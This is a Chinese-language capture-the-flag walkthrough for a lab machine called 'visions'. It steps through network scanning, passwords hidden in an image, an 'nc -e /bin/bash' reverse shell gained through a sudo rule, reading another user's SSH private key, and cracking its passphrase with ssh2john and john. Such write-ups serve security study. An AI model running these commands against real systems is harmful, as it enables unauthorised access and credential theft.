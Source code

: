 |   |   |   |
|---|---|---|
|visions|easy|图片隐写、图片调试、exiftool使用、sudo-nc提权、ssh私钥提权、ssh2john使用、john爆破私钥、ssh 私钥利用|
# 主机发现
```C
sudo netdiscover -i eth0 -r 192.168.44.136/24
```
# 服务扫描
```C
sudo nmap -sV -A -T 4 -p- 192.168.44.136 
```
# 目录扫描

右键检查查看源码，猜测是用户名alicia
```C
 http://192.168.44.136/index.html
 
Only those that can see the invisible can do the imposible.
You have to be able to see what doesnt exist.
Only those that can see the invisible being able to see whats not there.
-alicia 

翻译

只有那些能看到无形事物的人才能做到不可能的事情。
你必须能够看到不存在的东西。
只有那些能够看到不可见事物的人才能看到不存在的事物。
-艾丽西亚
```

页面只有个white.png空白图片，猜测是图片隐写
保存下来
查看信息
```C
exiftool white.png
strings white.png

得到： pw:ihaveadream
```
# 提权



```C
┌──(kali㉿kali)-[~/下载]
└─$ ssh alicia@192.168.44.136 //ihaveadream

sudo -l //  (emma) NOPASSWD: /usr/bin/nc
sudo -u emma /usr/bin/nc -e /bin/bash 192.168.44.136 2333
```

新建一个控制台ssh连接，nc监听
```C
nc -lvnp 2333

python3 -c 'import pty;pty.spawn("/bin/bash")'

emma@visions:~$ cat note.txt
cat note.txt
I cant help myself.
emma@visions:/home$ ls
ls
alicia  emma  isabella  sophia
emma@visions:/home$ cd sophia
cd sophia
emma@visions:/home/sophia$ ls
ls
flag.sh  user.txt
emma@visions:/home/sophia$ cat user.txt
cat user.txt
cat: user.txt: Permission denied

```
可以看到home目录下还有好多其他用户，这里脑洞较为大，还得回到那张图片white.png
把它复制到windows的world里，图片格式-->矫正-->图片矫正选项-->对比度-56%，就能看到账户密码

>sophia/seemstobeimpossible

获得第一个flag
```C
emma@visions:/home/sophia$ su sophia
su sophia
Password: seemstobeimpossible

sophia@visions:~$ cat user.txt
cat user.txt
hmvicanseeforever

```

读取到ssh私钥
```c
sudo -l //(ALL : ALL) NOPASSWD: /usr/bin/cat /home/isabella/.invisible
sudo /usr/bin/cat /home/isabella/.invisible
```

将私钥复制出来编辑到id_rsa，这登录还需要密码，我们使用 **ssh2john** 将 **id_isa** 秘钥信息 转换 为 **john** 可以识别的hash，然后进行爆破,得到密码是invisible
```C
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ vim id_rsa
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ ssh2john id_rsa >> hash  
┌──(kali㉿kali)-[~/桌面/OSCP]
└─$ /usr/sbin/john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

0g 0:00:05:24 0.06% (ETA: 2024-04-23 18:54) 0g/s 33.41p/s 33.41c/s 33.41C/s pink69..findingnemo
invisible        (id_rsa)   
```

